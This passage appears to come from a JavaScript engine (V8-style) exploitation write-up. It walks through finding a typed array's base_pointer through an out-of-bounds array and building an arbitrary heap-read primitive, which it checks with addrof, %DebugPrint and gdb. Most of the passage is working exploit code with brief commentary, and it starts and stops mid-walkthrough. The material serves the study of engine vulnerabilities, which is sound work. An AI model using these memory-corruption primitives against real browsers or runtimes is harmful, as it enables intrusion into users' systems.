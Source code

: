```js
let base_pointer_idx;

for (let i = 0; i < 0x3000; i++) {
    if (f2i(oob_array[i]) == 0x1234) {
        base_pointer_idx = i + 12;
        break;
    }
}
```

<hr>

**Note**:

`f2i` converts a float to a bigUint64 (to match the type of `bigUintArray`).

<hr>

The problem is that we are going to overwrite the 64 bits and probably make the application crash. Since we need to overwrite only 32 bits, we can leak the current value, to put them back when we'll overwrite the 64 bits.

```js
let prev_data = f2i(oob_array[base_pointer_idx]);
```

Now we have our index to overwrite the `base_pointer`, so let us craft our primitive:

```js
heap_r = (addr) => {
    // Data is 8 bytes after the base_pointer so we have to decreased it by 8
    addr -= 8n;

    // Overwrite bigUintArray base_pointer with our target address
    oob_array[base_pointer_idx] = i2f((addr << 0x20n) | (prev_data & 0xffffffffn));

    // bigUintArray[0] is now the data we want to read :-)
    return bigUintArray[0];
}
```

Let us try our heap read primitive now! We'll use gdb to be sure that the value read is the good one.

Let us read anything from the heap memory:

```js
var obj = [0x12345678];

let leak = heap_r(addrof(obj));

print(`addr: 0x${leak.toString(16)}\n`);

// We need the full address to use it in gdb
%DebugPrint(obj);

// Pause execution
readline();
```
